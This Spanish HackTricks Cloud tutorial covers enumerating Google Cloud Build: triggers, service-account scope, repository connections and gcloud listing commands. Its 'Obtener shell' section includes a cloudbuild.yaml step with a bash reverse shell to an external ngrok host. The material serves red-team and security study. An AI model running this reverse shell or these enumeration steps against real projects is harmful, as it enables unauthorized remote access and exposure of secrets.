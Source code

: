 # GCP - Enumeración de Cloud Build

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de HackTricks en AWS)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>

## Información Básica

Google Cloud Build es una plataforma de CI/CD gestionada que **automatiza la construcción de software** y los procesos de lanzamiento, integrándose con **repositorios de código fuente** y admitiendo una amplia gama de lenguajes de programación. Permite a los desarrolladores **construir, probar e implementar código automáticamente** al mismo tiempo que ofrece flexibilidad para personalizar los pasos de construcción y flujos de trabajo.

Cada Desencadenador de Cloud Build está **relacionado con un Repositorio de Cloud o conectado directamente con un repositorio externo** (Github, Bitbucket y Gitlab).

{% hint style="success" %}
No pude ver ninguna forma de robar el token de Github/Bitbucket desde aquí o desde Repositorios de Cloud porque cuando se descarga el repositorio se accede a través de una URL de [https://source.cloud.google.com/](https://source.cloud.google.com/) y Github no es accedido por el cliente.
{% endhint %}

### Eventos

Cloud Build puede ser desencadenado si:

* **Se hace push a una rama**: Especificar la rama
* **Se hace push a una nueva etiqueta**: Especificar la etiqueta
* **Pull request**: Especificar la rama que recibe el PR
* **Invocación manual**
* **Mensaje Pub/Sub**: Especificar el tema
* **Evento de Webhook**: Expondrá una URL HTTPS y la solicitud debe ser autenticada con un secreto

### Ejecución

Hay 3 opciones:

* Un yaml/json **especificando los comandos** a ejecutar. Por lo general: `/cloudbuild.yaml`
* Solo uno que puede ser especificado "en línea" en la consola web y en la CLI
* Opción más común
* Relevante para el acceso no autenticado
* Un **Dockerfile** para construir
* Un **Buildpack** para construir

### Permisos de SA

La **Cuenta de Servicio tiene el alcance `cloud-platform`**, por lo que puede **utilizar todos los privilegios**. Si **no se especifica una SA** (como al hacer submit) se utilizará la **SA predeterminada** `<núm-proyecto>@cloudbuild.gserviceaccount.com`.

Por defecto no se otorgan permisos, pero es bastante fácil darle algunos:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Aprobaciones

Es posible configurar un Cloud Build para **requerir aprobaciones para las ejecuciones de construcción** (deshabilitado de forma predeterminada).

### Conexiones y Repositorios

Las conexiones se pueden crear en:

* **GitHub:** Mostrará un aviso de OAuth pidiendo permisos para **obtener un token de Github** que se almacenará dentro del **Gestor de Secretos.**
* **GitHub Enterprise:** Pedirá instalar una **GithubApp**. Se creará y almacenará un **token de autenticación** de su host de GitHub Enterprise en este proyecto como un secreto del **Gestor de Secretos.**
* **GitLab / Enterprise:** Debes **proporcionar el token de acceso a la API y el token de acceso a la API de Lectura** que se almacenarán en el **Gestor de Secretos.**

Una vez que se genera una conexión, puedes usarla para **vincular repositorios a los que la cuenta de Github tiene acceso**.

Esta opción está disponible a través del botón:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Ten en cuenta que los repositorios conectados con este método **solo están disponibles en Triggers que utilizan la 2ª generación.**
{% endhint %}

### Conectar un Repositorio

Esto no es lo mismo que una **`conexión`**. Esto permite **diferentes** formas de obtener **acceso a un repositorio de Github o Bitbucket** pero **no genera un objeto de conexión, pero sí genera un objeto de repositorio (de 1ª generación).**

Esta opción está disponible a través del botón:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Almacenamiento

A veces Cloud Build **generará un nuevo almacenamiento para almacenar los archivos del desencadenador**. Esto sucede, por ejemplo, en el ejemplo que ofrece GCP con:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Un bucket de almacenamiento llamado [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) se crea para almacenar un archivo `.tgz` con los archivos a utilizar.

### Obtener shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Enumeración

Podrías encontrar **información sensible en las configuraciones de compilación y registros**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Escalada de Privilegios

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Acceso no Autenticado

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post Explotación

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}
